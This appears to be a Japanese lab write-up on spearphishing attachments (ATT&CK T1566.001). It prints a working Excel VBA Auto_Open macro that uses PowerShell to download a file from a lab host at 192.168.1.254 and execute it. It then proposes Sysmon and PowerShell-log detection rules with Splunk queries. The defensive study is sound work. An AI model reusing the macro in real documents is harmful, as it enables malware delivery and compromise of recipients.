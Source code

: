 # T1566.001 - Phishing Spearphishing Attachment

Phishing Spearphishing Attachment 検証
-------------

MS Office VBA Macro によるリモートファイルの実行とその検知について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1566.001  |
|  Tactic  |  Initial Access |
|  Techniques  |  Phishing  |
|  Sub-techniques  |  Spearphishing Attachment |


本検証では、リモート端末にホストされた悪意のあるファイルに見立てた calc.exe ファイルを取得し実行するマクロを実装します。

VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。

![T1566.001-1](images/T1566.001-001.png)

追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。

![T1566.001-2](images/T1566.001-2.png)

ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

```
Sub Auto_Open()

Set ws = CreateObject("WScript.Shell")

ws.Run "cmd.exe /c powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.254:8080/calc.exe ','%USERPROFILE%\Desktop\malicious.exe'); %USERPROFILE%\Desktop\malicious.exe", 0, True

End Sub
```

今回のケースではリモート端末として Kali Linux を用意し、別途 Windows から取得した calc.exe を配置しています。
簡単のために Simple HTTP Server を用いて GET の待ち受けを行います。

![T1566.001-3](images/T1566.001-3.png)

```
$ python2 -m SimpleHTTPServer 8080
```

VBA マクロが正しく動作するかの確認は、緑の実行ボタンから確認することができます。

![T1566.001-4](images/T1566.001-4.png)

リモート端末側では calc.exe が取得される様子が確認できます。

![T1566.001-5](images/T1566.001-5.png)

最後に、MS Excel をマクロが動作する xlsm 形式で保存します。

ファイルをオープンすると「コンテンツの有効化」が求められ、クリックすることでcalc.exe ファイルの取得と実行が行われます。

![T1566.001-6](images/T1566.001-6.png)


検知ルール検討
-------------

検知ルールについて検討します。
検証を行った本攻撃手法では、MS Office から cmd.exe が呼び出されています。
excel.exe や winword.exe といった MS Office が Caller となり cmd.exe や powershell.exe のプロセスが生成されることは通常の業務利用では稀であると考え、このプロセスの関係を検知ルールに落とし込む方法が考えられます。
Sysmon の EID 1 では生成されたプロセスとその呼び出し元プロセスがそれぞれ Image と ParentImageとして記録されます。

Splunk であれば以下のような SPL でプロセスの関係性をテーブル表示、またはビジュアル化することが可能です。

```
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
|eval ParentImage(From)=ParentImage 
|eval Image(To)=Image
|search "ParentImage(From)" != null
|table _time ParentImage(From) Image(To) process EventCode
|sort - _time
```
![T1566.001-7](images/T1566.001-7.png)

![T1566.001-8](images/T1566.001-8.png)

MS Office が Caller となり cmd.exe および powershell.exe のプロセスを生成する点に着目し、以下の検知ルールを提案します。

**MS Office からの cmd.exe および powershell.exe プロセス生成の検知ルール**

```
Sysmon
  EID 1 
    ParentImage 
      (*\EXCEL.EXE) OR (*\WINWORD.EXE)
　 AND
　 Image
      (*\cmd.exe) OR (*\powershell.exe) 
```

次に、本攻撃手法では、powershell.exe がリモートのファイルをダウンロードし、実行を行います。
その際に使われる Powershell のコマンドに着目し検知ルールを検討します。

Powershell の拡張ログでモジュールログ (EID4103)、スクリプトブロックログ (EID4104)それぞれで記録されるコマンド履歴に対してコマンドをマッチさせます。

Splunk であれば以下のような SPL で Powershell のコマンド部分を抽出することができます。

```
host="DESKTOP-53N6B15" source="XmlWinEventLog:Microsoft-Windows-PowerShell/Operational" EventID=4104
| rex field=EventData_Xml "<Data Name='ScriptBlockText'>(?P<PS_COMMAND>.+?)</Data>"  
| stats  count by PS_COMMAND  
| sort  - count
```

![T1566.001-9](images/T1566.001-9.png)

powershell.exe がリモートのファイルをダウンロードするコマンドに着目し、以下の検知ルールを提案します。

**powershell.exe によるリモートファイル取得の検知ルール**

```
Powershell
  EID 4103
    EventData
      Data Name="ContextInfo"
        (*WebClient*) AND (*DownloadFile*)
  OR
  EID 4104
    EventData
      Data Name="ScriptBlockText"
        (*WebClient*) AND (*DownloadFile*)
```

[Powershell.evtx をダウンロード](attach:attack-logs/T1566.001/Powershell.evtx)

[Sysmon.evtx をダウンロード](attach:attack-logs/T1566.001/Sysmon.evtx)